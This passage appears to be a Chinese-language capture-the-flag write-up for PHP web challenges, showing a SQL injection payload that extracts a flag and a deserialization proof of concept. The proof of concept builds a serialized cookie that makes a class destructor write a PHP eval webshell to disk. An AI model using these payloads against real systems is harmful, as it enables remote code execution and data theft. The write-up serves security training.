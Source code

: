 ```
dpt_name=1',sds_address=(select flag from sds_flaag)--+
```



## 305 反序列化传马

丢给seay扫![](https://i.loli.net/2021/10/06/Zl8Luz195PMbqdc.png)

先看一下dptadd.php，每个变量都被加上了waf，sql注入大概g了

```php
function sds_waf($str){
	if(preg_match('/\~|\`|\!|\@|\#|\$|\%|\^|\&|\*|\(|\)|\_|\+|\=|\{|\}|\[|\]|\;|\:|\'|\"|\,|\.|\?|\/|\\\|\<|\>/', $str)){
		return false;
	}else{
		return true;
	}
}
```

再看class.php：

```php
class user{
	public $username;
	public $password;
	public function __construct($u,$p){
		$this->username=$u;
		$this->password=$p;
	}
	public function __destruct(){
		file_put_contents($this->username, $this->password);
	}
}
```

好像可以file_put_contents写马~，再看看再哪里可以触发反序列化
在checklogin.php找到：![](https://i.loli.net/2021/10/06/cZrLxEUkWYApJtX.png)

那么构造payload在cookie传进去就可以了

poc:

```php
<?php

class user{
    public $username = 'a.php';
    public $password = '<?php eval($_POST[1]);?>';
}

$a = new user();
echo urlencode(serialize($a));


# O%3A4%3A%22user%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%22a.php%22%3Bs%3A8%3A%22password%22%3Bs%3A24%3A%22%3C%3Fphp+eval%28%24_POST%5B1%5D%29%3B%3F%3E%22%3B%7D
```

